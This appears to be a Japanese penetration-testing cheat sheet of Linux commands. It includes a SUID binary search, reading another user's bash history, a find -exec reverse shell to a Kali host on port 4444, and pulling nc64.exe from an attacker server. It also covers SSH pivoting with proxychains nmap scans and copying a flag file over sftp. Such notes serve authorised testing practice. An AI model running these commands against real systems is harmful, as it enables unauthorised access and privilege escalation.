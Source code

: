 # ubuntu bash

* ファイル指定

``` shell
  # 便利
  # $(which XXX)
  cp $(which find) /tmp/find
```

* パスワード変更

    ```shell
      passwd [USER_NAME]
    ```

* ユーザ情報

  ``` shell
    id
  ```

* sudo
  
    ``` shell
      #sudoの情報表示
      sudo -l
    ```

* find

``` shell
  #sudo設定のファイルを検索
  find / -perm -4000
  #または
  find / -type f -perm -4000 -ls 2>/dev/null
  #コマンド実行
  find ~/.profile -exec /bin/bash -p -i >& /dev/tcp/<kali ip address>/4444 0>&1 \; -quit
```

* cat

``` shell
  #過去の入力情報の表示
  cat /home/XXX/.bash_history
```

* grep
  
    ```shell
      #階層検索
      grep -r
      #よく使う
      ls -l | grep -re XXXX -re YYY
      # 該当するファイル名表示
      grep -l
      # nseスクリプトで脆弱性検索
      grep <app_name> -rl /usr/share/nmap/scripts/ 
    ```

* egrep

    ``` shell
      # 実行されているOSバージョンを表示
      ls /etc | egrep -e "fedore*|debian*|gentoo*|mandriva*|mandrake*|meego*|redhat*|lsb-*|sun-*|SUSE*|release"
    ```

* wget
  * ダウンロード

  ``` shell
    # ダウンロード
    wget https://www.exploit-db.com/download/XXXXXX -O filename
  ```
  
  * 自前のwebサーバーからファイルをダウンロードさせる。

  ``` shell
      # Web server
      python -m http.server 8000
      # 転送
      # wget -O [転送先] [転送するファイル]
      wget -O /tmp/XXX http://XXX.XXX.XXX.XXX:8000/filename
  ```

* curl

  ``` shell
      #curlでファイル転送
      curl http://<Remote KaliのIP>:8000/nc64.exe -o nc64.exe
  ```

* pythonの仮想環境
  
  ``` bash
      #仮想環境の作成
      python3 -m venv myenv
      #仮想環境の有効か
      source myenv/bin/activate
      #仮想環境内でパッケージインストール
      pip install <package_name>
      #作業後仮想環境を無効化
      deactivate
  ```

* マウントされているボリュームの取得
  
  ``` shell
    mount
  ```

* xfreerdp

  ``` shell
      xfreerdp /u:win /p:password /v:127.0.0.1
  ```

* ssh

  ``` shell
    ssh -i /home/XXX/.ssh/id_rsa <user_name>@XXX.XXX.XXX.XXX -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null

    # port forwarding
    ssh -N -L <localport>:<remoteXXX.XXX.XXX.XXX>:<remote_port> <踏み台user>@<踏み台XXX.XXX.XXX.XXX.>
    
    # dynamic port forwarding
    ssh -fND 127.0.0.1:8080
    #proxy経由でターゲットへのnmapスキャン
    proxychains nmap -top-ports=20 -sT -Pn XXX.XX.XXX.XXX
  ```

* cron

  ``` shell
      # 設定確認
      cat /etc/crontab
      #　登録
      crontab -u <ユーザ名> -e    
  ```

* sftp
  
  ``` shell
      # sftp -i <秘密鍵> -P 8080 <ユーザ>@localhost
      sftp -i /home/kali/id_rsa -P 8080 testuser@localhost
      #接続後 ファイルを自分の端末に転送
      get /C:/Users/testuser/Desktop/Pentest/flag.txt
  ```
